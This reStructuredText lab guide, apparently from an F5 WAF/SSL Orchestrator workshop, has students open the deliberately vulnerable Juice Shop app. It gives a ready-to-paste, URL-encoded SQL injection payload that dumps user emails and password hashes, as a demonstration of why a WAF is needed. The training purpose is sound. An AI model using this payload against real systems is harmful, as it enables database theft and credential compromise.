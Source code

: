 .. role:: red
.. role:: bred

The Juiceshop Application
================================================================================

We will start by establishing an RDP session to the **Ubuntu 18.04 Client**.

-  Start an RDP session to the **Ubuntu 18.04 CLient** (Components > Ubuntu18.04 Client > ACCESS > XRDP)

   .. image:: ../images/udf-ubuntu-client-rdp.png
      :alt: UDF Ubuntu Client RDP 

-  When prompted, save the RDP file to your local machine and then open it to connect.
-  At the Ubuntu Login prompt, click on the **OK** button to continue.

   .. image:: ../images/udf-ubuntu-client-rdp2.png
      :alt: UDF Ubuntu XRDP


   .. tip:: If the RDP session times out, refer to the `User Credentials <https://github.com/Doctorwooo/f5-agility-labs-sslviz/blob/master/docs/class2/labinfo.rst>`_ for the **student** user password.

-  Open the **Firefox** browser
-  Click on the **Juiceshop** bookmark on the browser bar

   .. image:: ../images/juiceshop-bookmark.png

-  Accept the security risk by clicking **Advanced** and **Accept the Risk and Continue**. This is due to the BIGIP using a self-signed certificate.

   .. image:: ../images/certificate-risk.png

Here is the vulnerable Juiceshop application. Next, we will try a simple SQL injection attack that will illustrate why WAF protection is necessary.

  .. image:: ../images/juiceshop-rdp.png

-  Copy and Paste the following path in your browser's location bar after https://10.1.20.200/

  .. code-block:: none
   
    /rest/products/search?q=qwert%27%29%29%20UNION%20SELECT%20id%2C%20email%2C%20password%2C%20%274%27%2C%20%275%27%2C%20%276%27%2C%20%277%27%2C%20%278%27%2C%20%279%27%20FROM%20Users--

-  The browser's location bar should look like this:

  .. code-block:: none

    https://10.1.20.200/rest/products/search?q=qwert%27%29%29%20UNION%20SELECT%20id%2C%20email%2C%20password%2C%20%274%27%2C%20%275%27%2C%20%276%27%2C%20%277%27%2C%20%278%27%2C%20%279%27%20FROM%20Users--

This will cause the application to dump a list of users in the database to include their hashed passwords. **YIKES!**

  .. image:: ../images/juiceshop-sql.png


  .. warning:: An attacker could easily grab the hashed passwords and decrypt in a free password hash cracker widely available on the internet. We will take steps to protect this insecure application using SSL Orchestrator and WAFaaS. 
